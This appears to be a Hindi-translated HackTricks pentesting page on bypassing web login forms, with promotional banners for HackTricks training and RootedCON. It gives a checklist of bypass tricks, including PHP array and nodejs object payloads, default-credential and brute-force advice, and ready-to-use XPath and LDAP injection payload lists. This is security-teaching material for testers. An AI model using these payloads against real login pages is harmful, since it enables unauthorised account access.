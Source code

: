 # Login Bypass

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) **स्पेन** में सबसे प्रासंगिक साइबर सुरक्षा कार्यक्रम है और **यूरोप** में सबसे महत्वपूर्ण में से एक है। **तकनीकी ज्ञान को बढ़ावा देने** के मिशन के साथ, यह कांग्रेस हर अनुशासन में प्रौद्योगिकी और साइबर सुरक्षा पेशेवरों के लिए एक उबालता हुआ बैठक बिंदु है।

{% embed url="https://www.rootedcon.com/" %}

## **नियमित लॉगिन बायपास करें**

यदि आप एक लॉगिन पृष्ठ पाते हैं, तो यहां कुछ तकनीकें हैं जिन्हें आप बायपास करने के लिए आजमा सकते हैं:

* पृष्ठ के अंदर **टिप्पणियों** की जांच करें (नीचे और दाईं ओर स्क्रॉल करें?)
* जांचें कि क्या आप **प्रतिबंधित पृष्ठों** तक **प्रत्यक्ष पहुंच** प्राप्त कर सकते हैं
* **पैरामीटर न भेजने** की जांच करें (कोई भी न भेजें या केवल 1)
* **PHP तुलना त्रुटि की जांच करें:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
* **सामग्री प्रकार को json में बदलें** और json मान भेजें (bool true शामिल)
* यदि आपको एक प्रतिक्रिया मिलती है जो कहती है कि POST समर्थित नहीं है, तो आप **GET अनुरोध के साथ शरीर में JSON भेजने** की कोशिश कर सकते हैं `Content-Type: application/json`
* nodejs संभावित पार्सिंग त्रुटि की जांच करें (पढ़ें [**यहां**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
* Nodejs उस पेलोड को निम्नलिखित में से एक समान क्वेरी में बदल देगा: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` जो पासवर्ड बिट को हमेशा सत्य बनाता है।
* यदि आप एक JSON ऑब्जेक्ट भेज सकते हैं, तो आप लॉगिन बायपास करने के लिए `"password":{"password": 1}` भेज सकते हैं।
* याद रखें कि इस लॉगिन को बायपास करने के लिए आपको अभी भी **एक मान्य उपयोगकर्ता नाम जानने और भेजने** की आवश्यकता है।
* **`mysql.createConnection`** को कॉल करते समय `"stringifyObjects":true` विकल्प जोड़ने से अंततः **जब `Object` पैरामीटर में पास किया जाता है तो सभी अप्रत्याशित व्यवहारों को रोक देगा।**
* क्रेडेंशियल्स की जांच करें:
* [**डिफ़ॉल्ट क्रेडेंशियल्स**](../../generic-methodologies-and-resources/brute-force.md#default-credentials) का उपयोग की गई तकनीक/प्लेटफ़ॉर्म
* **सामान्य संयोजन** (रूट, व्यवस्थापक, पासवर्ड, तकनीक का नाम, इनमें से किसी एक पासवर्ड के साथ डिफ़ॉल्ट उपयोगकर्ता)।
* **Cewl** का उपयोग करके एक शब्दकोश बनाएं, **डिफ़ॉल्ट** उपयोगकर्ता नाम और पासवर्ड (यदि कोई हो) जोड़ें और सभी शब्दों को **उपयोगकर्ता नाम और पासवर्ड** के रूप में ब्रूट-फोर्स करने का प्रयास करें
* **बड़े शब्दकोश का उपयोग करके ब्रूट-फोर्स करें (**[**ब्रूट फोर्स**](../../generic-methodologies-and-resources/brute-force.md#http-post-form)**)**

### SQL Injection प्रमाणीकरण बायपास

[यहां आप **SQL इंजेक्शन** के माध्यम से लॉगिन बायपास करने के लिए कई तरकीबें पा सकते हैं](../sql-injection/#authentication-bypass).

अगली पृष्ठ पर आप **SQL इंजेक्शन** के माध्यम से लॉगिन बायपास करने के लिए एक **कस्टम सूची** पा सकते हैं:

{% content-ref url="sql-login-bypass.md" %}
[sql-login-bypass.md](sql-login-bypass.md)
{% endcontent-ref %}

### No SQL Injection प्रमाणीकरण बायपास

[यहां आप **No SQL इंजेक्शन** के माध्यम से लॉगिन बायपास करने के लिए कई तरकीबें पा सकते हैं](../nosql-injection.md#basic-authentication-bypass)**.**

चूंकि NoSQL इंजेक्शन को पैरामीटर मान को बदलने की आवश्यकता होती है, इसलिए आपको उन्हें मैन्युअल रूप से परीक्षण करने की आवश्यकता होगी।

### XPath Injection प्रमाणीकरण बायपास

[यहां आप **XPath इंजेक्शन** के माध्यम से लॉगिन बायपास करने के लिए कई तरकीबें पा सकते हैं।](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP Injection प्रमाणीकरण बाईपास

[यहाँ आप **LDAP Injection** के माध्यम से लॉगिन बाईपास करने के लिए कई तरकीबें पा सकते हैं।](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### Remember Me

यदि पृष्ठ में "**Remember Me**" कार्यक्षमता है, तो जांचें कि इसे कैसे लागू किया गया है और देखें कि क्या आप इसका दुरुपयोग करके **अन्य खातों पर नियंत्रण** प्राप्त कर सकते हैं।

### Redirects

पृष्ठ आमतौर पर लॉगिन के बाद उपयोगकर्ताओं को रीडायरेक्ट करते हैं, जांचें कि क्या आप उस रीडायरेक्ट को बदल सकते हैं ताकि [**Open Redirect**](../open-redirect.md) का कारण बन सके। शायद आप कुछ जानकारी (कोड, कुकीज़...) चुरा सकते हैं यदि आप उपयोगकर्ता को अपनी वेबसाइट पर रीडायरेक्ट करते हैं।

## Other Checks

* जांचें कि क्या आप लॉगिन कार्यक्षमता का दुरुपयोग करके **उपयोगकर्ता नामों की गणना** कर सकते हैं।
* जांचें कि क्या पासवर्ड/**संवेदनशील** जानकारी **फॉर्म** **इनपुट** में **ऑटो-कंप्लीट** सक्रिय है: `<input autocomplete="false">`

## Automatic Tools
* [HTLogin](https://github.com/akinerkisa/HTLogin)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) **स्पेन** में सबसे प्रासंगिक साइबर सुरक्षा कार्यक्रम है और **यूरोप** में सबसे महत्वपूर्ण में से एक है। **तकनीकी ज्ञान को बढ़ावा देने** के मिशन के साथ, यह कांग्रेस हर अनुशासन में प्रौद्योगिकी और साइबर सुरक्षा पेशेवरों के लिए एक उबालता हुआ बैठक बिंदु है।

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) जांचें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
